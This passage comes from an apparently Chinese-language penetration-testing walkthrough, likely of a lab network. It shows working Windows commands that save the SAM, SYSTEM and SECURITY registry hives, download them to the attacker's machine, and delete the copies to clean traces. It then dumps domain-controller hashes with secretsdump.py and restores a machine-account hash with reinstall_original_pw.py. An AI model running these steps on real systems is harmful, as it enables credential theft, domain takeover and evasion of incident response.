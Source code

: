   
下载下来并及时删除, 清理痕迹.  

```
reg save HKLM\SYSTEM system.save reg save HKLM\SAM sam.save reg save HKLM\SECURITY security.save  download C:\\sam.save C:\\Users\\95235\\Desktop\\sam.save download C:\\security.save C:\\Users\\95235\\Desktop\\security.save download C:\\system.save C:\\Users\\95235\\Desktop\\system.save  del /f sam.save del /f system.save del /f security.save
```

  
![](https://mmbiz.qpic.cn/mmbiz_png/IS2RlFMDPK4qanadx6YN6xVvm8EDpl4OrXy05aFLROYXfYNWSBgicuf2tP60H05yfLqs4alIdqFAgF5dRqHS9Dg/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/IS2RlFMDPK4qanadx6YN6xVvm8EDpl4O6CfAUl4Oc1M1icZyRticARknibCmwA1q4iayFpZ2mY9uiawDiaVzmSb84AHA/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/IS2RlFMDPK4qanadx6YN6xVvm8EDpl4OtKGVg1OvicKa8fddJjS9Ie3FXicD0UDFibzyKnx7YFotYZzjEOQ3uykicA/640?wx_fmt=png&from=appmsg "")  
  
接着利用脚本
```
secretsdump.py
```

  
查看一下域控的
```
hash
```

  
: 
```
python secretsdump.py -sam sam.save -system system.save -security security.save LOCAL
```

  
.  
  
![](https://mmbiz.qpic.cn/mmbiz_png/IS2RlFMDPK4qanadx6YN6xVvm8EDpl4OcjJXr5fhicSCLTj2AeBN5QMaB82OhJrqNrRs7vOzMO87wibRvDSylH9w/640?wx_fmt=png&from=appmsg "")  
  
利用脚本
```
reinstall_original_pw.py
```

  
恢复
```
hash
```

  
: 
```
python reinstall_original_pw.py OWA 10.10.10.8 f4044edaafbdca41a6e53d234c14ab9a
```

  
.  
  
![](https://mmbiz.qpic.cn/mmbiz_png/IS2RlFMDPK4qanadx6YN6xVvm8EDpl4Os0xY3qNAZ0uIds2qaqvUBzIdQq4uml8vIJonwpvZ25XDsjCQ0fuDSg/640?wx_fmt=png&from=appmsg "")  
  